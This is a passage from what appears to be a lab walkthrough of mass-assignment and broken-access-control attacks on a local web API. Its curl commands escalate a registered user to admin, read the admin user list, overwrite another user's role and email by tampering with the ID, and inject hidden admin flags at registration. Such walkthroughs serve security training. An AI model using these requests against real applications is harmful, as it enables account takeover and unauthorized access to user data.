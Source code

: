 **Response:**
```json
{
  "success": true,
  "token": "eyJhbGciOiJIUzI1NiIs...",
  "user": {
    "id": 6,
    "username": "hacker",
    "role": "admin"  // Successfully escalated to admin!
  }
}
```

#### Step 3: Access Admin Endpoints

```bash
# Now you can access admin-only endpoints
TOKEN="eyJhbGciOiJIUzI1NiIs..."

curl -H "Authorization: Bearer $TOKEN" \
  http://localhost:3000/api/admin/users
```

**Response:**
```json
{
  "success": true,
  "users": [
    {"id": 1, "username": "admin", "role": "admin"},
    {"id": 2, "username": "john.doe", "role": "user"},
    {"id": 6, "username": "hacker", "role": "admin"}
  ]
}
```

#### Step 4: Profile Update Tampering

```bash
# Update any user's profile by tampering with ID
curl -X POST http://localhost:3000/api/user/update \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{
    "id": 2,
    "role": "admin",
    "email": "hacked@evil.com"
  }'
```

#### Step 5: Hidden Parameter Discovery

```bash
# Try common hidden parameters
curl -X POST http://localhost:3000/api/register \
  -H "Content-Type: application/json" \
  -d '{
    "username": "test",
    "password": "test",
    "email": "test@test.com",
    "isAdmin": true,
    "is_admin": true,
    "admin": true,
    "superuser": true,
    "privileges": "admin"
  }'
```
